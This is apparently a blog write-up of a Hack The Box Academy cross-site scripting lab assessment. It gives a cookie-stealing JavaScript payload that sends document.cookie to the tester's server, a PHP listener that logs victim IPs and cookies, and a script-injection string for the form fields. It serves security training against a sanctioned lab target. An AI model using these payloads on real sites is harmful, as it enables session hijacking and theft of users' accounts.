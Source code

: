 ```yaml
---
layout: post
title:  "Hack The Box - Academy - Cross Site Scripting Skills Assessment"
date:   2024-09-29 18:45
image:  /images/htb/cross-site-scripting/cross-site-scripting-logo.png
tags:   [xss]
categories: [htbacademy]
---
```


><b>Overview:</b>
<br/><br/>
We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new Security Blog. In our Web Application Penetration Testing plan, we reached the part where you must test the web application against Cross-Site Scripting vulnerabilities (XSS).<br/><br/>
Start the server below, make sure you are connected to the VPN, and access the /assessment directory on the server using the browser:<br/><br/>
Apply the skills you learned in this module to achieve the following:<br/><br/>
 1 Identify a user-input field that is vulnerable to an XSS vulnerability.<br/>
 2 Find a working XSS payload that executes JavaScript code on the target's browser.<br/>
 3 Using the Session Hijacking techniques, try to steal the victim's cookies, which should contain the flag
<br/>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/103/section/1011">Cross-Site Scripting (XSS)</a><br/>
<a href="https://jacozwarts.github.io/images/htb/cross-site-scripting/Cross_Site_Scripting_Xss_Module_Cheat_Sheet.pdf">Cross-Site Scripting (XSS) - Cheat Sheet</a>
<br/>

#### Installing XSStrike
<a href="https://github.com/s0md3v/XSStrike.git">Clone the XSStrike Repository from GitHub</a>
```
git clone https://github.com/s0md3v/XSStrike.git
```
```
cd XSStrike
pip install -r requirements.txt
```
```
python xsstrike.py -u "http://{TARGET}?id=1"
```


## Q1:  What is the value of the 'flag' cookie?

In this guide, we'll walk through how to extract the 'flag' cookie during the XSS skills assessment using the Hack The Box provided VM. Let's dive in!

#### 1. Set Up the Environment
Start by creating a temporary directory for our script and files. Run the following command to create the directory:
```
mkdir /tmp/tempserver
```
#### 2. Create the JavaScript to Capture the Cookie
Next, we'll write a script (script.js) that will extract the session cookie and send it to a web server we’ll set up shortly. This script will be injected into the vulnerable input fields to capture the cookie.
```
document.location='http://{HTB_VM_IPADDRESS}:{PORT}/index.php?c='+document.cookie;
new Image().src='http://{HTB_VM_IPADDRESS}:{PORT}/index.php?c='+document.cookie;
```
#### 3. Set Up the PHP Server
Now, let's create a PHP file that will handle the incoming requests. This php script will read the c query parameter, which will contain the cookie, and store it in a file called cookies.txt. Here’s the php script:
```
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
Use the below command to start your php server:
```
sudo php -S 0.0.0.0:{PORT}
```
You can use any available port. In my case, port 80 was already in use on the Hack The Box Virtual Machine, so I chose an alternate port.
#### 4. Inject the Payload
The next step is to craft a payload to inject into the form. We'll use the following payload for both the comment and website input fields:
```
"><script src=http://{HTB_VM_IPADDRESS}:{PORT}/script.js></script>
```
Replace {HTB_VM_IPADDRESS}:{PORT} with your VM's IP and Port you used when  address.
#### Capture the Flag
Submit the form with the injected payload. Afterward, check the cookies.txt file on your server to retrieve the session cookie. and flag.
<hr/>